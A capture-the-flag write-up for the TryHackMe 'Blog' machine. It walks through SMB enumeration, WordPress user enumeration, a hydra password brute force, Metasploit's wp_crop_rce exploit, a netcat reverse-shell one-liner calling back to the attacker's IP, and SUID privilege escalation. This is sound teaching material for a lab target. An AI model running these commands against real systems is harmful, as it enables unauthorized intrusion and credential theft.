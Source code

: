 ```yaml
---
description: Billy Joel made a Wordpress blog! - by  Nameless0ne
---
```


# Blog

***

Platform : [Tryhackme](https://tryhackme.com/room/blog)

Difficulty: Medium

Machine Type: Linux

***

### Scanning and Enumeration

Nmap scan results:

```
┌──(ghost㉿kali)-[~/tryhackme/blog]
└─$ sudo nmap -Pn -A -p- --min-rate 3000 blog.thm -oN nmap.full
[sudo] password for ghost: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-29 23:33 EDT
Nmap scan report for 10.201.71.207
Host is up (0.21s latency).
Not shown: 65531 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 57:8a:da:90:ba:ed:3a:47:0c:05:a3:f7:a8:0a:8d:78 (RSA)
|   256 c2:64:ef:ab:b1:9a:1c:87:58:7c:4b:d5:0f:20:46:26 (ECDSA)
|_  256 5a:f2:62:92:11:8e:ad:8a:9b:23:82:2d:ad:53:bc:16 (ED25519)
80/tcp  open  http        Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Billy Joel&#039;s IT Blog &#8211; The IT blog
|_http-generator: WordPress 5.0
| http-robots.txt: 1 disallowed entry 
|_/wp-admin/
|_http-server-header: Apache/2.4.29 (Ubuntu)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Device type: general purpose
Running: Linux 4.X
OS CPE: cpe:/o:linux:linux_kernel:4.15
OS details: Linux 4.15
Network Distance: 5 hops
Service Info: Host: BLOG; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: blog
|   NetBIOS computer name: BLOG\x00
|   Domain name: \x00
|   FQDN: blog
|_  System time: 2025-08-30T03:34:18+00:00
| smb2-time: 
|   date: 2025-08-30T03:34:18
|_  start_date: N/A
|_nbstat: NetBIOS name: BLOG, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

```

As we can see port 22(ssh), 80(http), 139(netbios-ssn) and port 445(smb) is open.

Nmap scan also revealed, there is some kind of WordPress(5.0) site with title 'Billy Joel's IT Blog' is hosted on port 80. But first of all we can check for shares present and accessible to us via smb port 445.

At first, I listed all shares of the target machine via smbclient.

```
┌──(ghost㉿kali)-[~/tryhackme/blog]
└─$ smbclient -L '/10.201.71.207' -U ''
```

<figure><img src="../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

From all those 3 shares, 'billySMB' look's a little bit suspicious and so I connected to it and downloaded

all files that were hosted there.

```
┌──(ghost㉿kali)-[~/tryhackme/blog]
└─$ smbclient '//10.201.71.207/BillySMB' -U ''
```

<figure><img src="../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

Checked all those 3 files one by one:

<details>

<summary>Alice-White-Rabbit.jpg</summary>

<figure><img src="../../.gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>

I tried to extract file with steghide, if any present hidden inside that image.

```
┌──(ghost㉿kali)-[~/tryhackme/blog]
└─$ steghide extract -sf Alice-White-Rabbit.jpg
```

<figure><img src="../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

Yeah, there was a file hidden inside that image, but it's content shows that I am in a rabbit hole.

Nothing interesting here.

</details>

<details>

<summary>tswift.mp4</summary>

<figure><img src="../../.gitbook/assets/image (24).png" alt=""><figcaption></figcaption></figure>

Just a mp4 video file of taylor swift song and with no hints. Again a rabbit hole.

</details>

<details>

<summary>check-this.png</summary>

<figure><img src="../../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>

When I scanned this QR with my phone, I got redirected to a song by billy joel. Again a rabbit hole, nothing of our interest.

</details>

Looking at all those files showed, SMB port was just a rabbit hole and nothing of our interest here, not even a hint.

Next I moved on to port 80, where a blog website hosted using WordPress CMS.

<figure><img src="../../.gitbook/assets/image (26).png" alt=""><figcaption></figcaption></figure>

Login page was also present on `http://blog.thm/wp-login.php`

<figure><img src="../../.gitbook/assets/image (27).png" alt=""><figcaption></figcaption></figure>

As this website was built using WordPress, I instantly enumerated it using wpscan for usernames, vulnerable plugins, vulnerable themes etc.

***

### WordPress Dashboard access as kwheel

```
┌──(ghost㉿kali)-[~/tryhackme/blog]
└─$ wpscan --url "blog.thm" -e u, vp, vt --no-update
```

And I got 2 valid usernames - <mark style="color:yellow;">kwheel</mark> and <mark style="color:yellow;">bjoel</mark>

<figure><img src="../../.gitbook/assets/image (28).png" alt=""><figcaption></figcaption></figure>

For confirmation, I also checked them on login page by entering random password for them.

<figure><img src="../../.gitbook/assets/image (29).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
Error: The password you entered for the username kwheel is incorrect. Lost your password?
{% endhint %}

Which means username kwheel is valid.

Next, I brute forced the password for kwheel user using hydra and found a valid password.

```
┌──(ghost㉿kali)-[~/tryhackme/blog]
└─$ hydra -l kwheel -P /usr/share/wordlists/rockyou.txt blog.thm http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fblog.thm%2Fwp-admin%2F&testcookie=1:F=The password you entered for the username" 
```

<figure><img src="../../.gitbook/assets/image (30).png" alt=""><figcaption></figcaption></figure>

Tried to log on WordPress login page with that found credentials and logged in as kwheel.

<figure><img src="../../.gitbook/assets/image (31).png" alt=""><figcaption></figcaption></figure>

***

### Shell as www-data

I searched for potential exploit on google for that particular version of WordPress 5.0 and there I found a public Metasploit exploit available on [exploit-db](https://www.exploit-db.com/exploits/46662) for that version of WordPress.

{% embed url="https://www.exploit-db.com/exploits/46662" %}

I searched for that crop-image module through msfconsole and found that module.

<figure><img src="../../.gitbook/assets/image (32).png" alt=""><figcaption></figcaption></figure>

I used that module and set some of the options needed to run that payload successfully.

```
msf6 exploit(multi/http/wp_crop_rce) > set LHOST <kali-machine-IP>
LHOST => 10.17.87.131
msf6 exploit(multi/http/wp_crop_rce) > set RHOSTS blog.thm
RHOSTS => blog.thm
msf6 exploit(multi/http/wp_crop_rce) > set PASSWORD REDACTED
PASSWORD => cutiepie1
msf6 exploit(multi/http/wp_crop_rce) > set USERNAME kwheel
USERNAME => kwheel
msf6 exploit(multi/http/wp_crop_rce) > run
```

Running that module provided me with a meterpreter shell.

<figure><img src="../../.gitbook/assets/image (37).png" alt=""><figcaption></figcaption></figure>

I created a reverse shell file inside /tmp folder of target machine. Triggering that shell there provided me with a reverse shell connection and a better shell then previous one.

```
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.17.87.131 4445 >/tmp/f' > rev.sh
chmod +x rev.sh
./rev.sh
```

<figure><img src="../../.gitbook/assets/image (38).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (39).png" alt=""><figcaption></figcaption></figure>

***

### Shell as Root

There was a fake user.txt present inside bjoel's home directory.

<figure><img src="../../.gitbook/assets/image (40).png" alt=""><figcaption></figcaption></figure>

Next, I tried multiple steps to gain higher privileges like password resuse, connecting to mysql database through the password I found inside wp-config.php file , but that didn't worked.

While enumerating for SUID files, I found an interesting binary <mark style="color:red;">/usr/bin/checker</mark> which was owned by root.

```
find / -perm -u=s -type f 2>/dev/null
```

<figure><img src="../../.gitbook/assets/image (41).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (42).png" alt=""><figcaption></figcaption></figure>

I tried running that binary and got a message - <mark style="color:yellow;">Not an Admin</mark>

<figure><img src="../../.gitbook/assets/image (43).png" alt=""><figcaption></figcaption></figure>

Next, I tried running it with <mark style="color:red;">`ltrace`</mark> to get more detail about it's running process.

{% hint style="info" %}
`ltrace` is a command-line debugging and diagnostic utility in Linux. Its primary function is to trace and display the calls made by a userspace application to shared libraries. It achieves this by intercepting and recording the dynamic library calls and the signals received by the traced process.
{% endhint %}

<figure><img src="../../.gitbook/assets/image (44).png" alt=""><figcaption></figcaption></figure>

Looks like it's checking value of environment variable 'admin' if it's nil (or not present) then , it is just printing 'Not an Admin'. And what if we set our environment variable 'admin' to 1.

<figure><img src="../../.gitbook/assets/image (45).png" alt=""><figcaption></figcaption></figure>

Ok, now as we run that binary again, it will set our uid to 0(root) and will spawn a /bin/bash shell as root.

<figure><img src="../../.gitbook/assets/image (46).png" alt=""><figcaption></figcaption></figure>

Grabbed the root flag

<figure><img src="../../.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>

Now, just user flag is remaining, which I found using the following command:

```
find / -type f -name "user*" 2>/dev/null
```

<figure><img src="../../.gitbook/assets/image (49).png" alt=""><figcaption></figcaption></figure>

Grabbed the user flag

<figure><img src="../../.gitbook/assets/image (50).png" alt=""><figcaption></figcaption></figure>

***

That's it for this machine.✅
